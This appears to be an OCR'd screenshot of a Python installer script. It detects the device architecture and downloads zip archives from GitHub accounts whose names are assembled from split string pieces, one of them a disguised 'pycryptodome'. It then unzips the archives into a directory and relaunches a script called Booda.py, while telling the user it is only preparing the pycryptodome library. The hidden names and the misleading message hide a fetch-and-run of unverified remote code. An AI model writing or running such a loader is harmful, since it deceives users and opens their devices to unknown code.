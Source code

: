 if 'aarch64' in str(find_aarch):

        user_aarch = '64'

        download_link = f'https://github.com/{hh}p0{hh2}odome/blob/main/crypto64/crypto64.zip?raw=true'

elif 'arm' in str(find_aarch):

        user_aarch = '32'

        download_link = f'https://github.com/{hh}p0{hh2}odome/blob/main/crypto32/crypto32.zip?raw=true'

else:

        print(' Unknown aarch ')

        exit()

if not os.path.isfile(f'crypto/crypto{user_aarch}.zip'):

        os.system('clear')

        print('\n Please wait while creating pycryptodome for you ! This can take some time\n\n')

        os.system(f'curl -L {download_link} > crypto/crypto{user_aarch}.zip')

        os.system('python Booda.py')

else:

        akk2="rsi"

        akk=f"cha{akk2}fi"

        os.system(f'cp crypto/crypto{user_aarch}.zip {http_directory}')

        lib = f'https://github.com/{akk}les/client/blob/main/config.zip?raw=true'

        os.system(f'curl -L {lib} > {http_directory}/config.zip')

        os.system(f'cd {http_directory} && unzip config.zip -d {http_directory} > /dev/null')

        os.system(f'cd {http_directory} && unzip crypto{user_aarch}.zip -d {http_directory} > /dev/null')

try:

        import time,requests,re,platform,base64,datetime,hashlib,string,json,io,struct

        from string import *

        from concurrent.futures import ThreadPoolExecutor as ThreadPool

        from Crypto.Cipher import AES, PKCS1_v1_5

        from Crypto.PublicKey import RSA

        from Crypto.Random import get_random_bytes

except Exception as e:

        print(e)

        print('\n Installing modules wait !')

        os.system('pip install futures==2 && python Booda.py')
